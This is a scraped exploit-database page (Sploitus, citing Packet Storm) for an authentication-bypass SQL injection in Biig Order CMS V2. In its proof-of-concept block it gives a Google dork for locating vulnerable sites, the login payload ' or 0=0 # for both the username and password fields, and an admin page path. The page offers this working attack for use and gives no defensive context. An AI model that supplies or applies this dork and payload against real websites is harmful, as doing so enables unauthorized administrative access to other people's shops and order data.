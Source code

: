 ```yaml
---
title: Biig Order CMS 2 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172683&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-03
fetch_date: 2025-10-04T11:44:30.199445
---
```


# Biig Order CMS 2 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Biig Order CMS 2 SQL Injection

2023-06-02 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172683
================================================================================
| # Title : E-commerce Biig Order CMS V2 Auth by Pass Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Fr(Pro) / browser : firefox 113.0.1(64 bits) |
| # Vendor : https://www.vaskar.in/ |
| # Dork : "shop_detail.php?detail=" |
================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] Use Payload : User & Pass : ' or 0=0 #

[+] https://127.0.0.1/www/biigorder.com/admin/manage-order.php

Greetings to :=====================================================================================
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm* moncet |
===================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)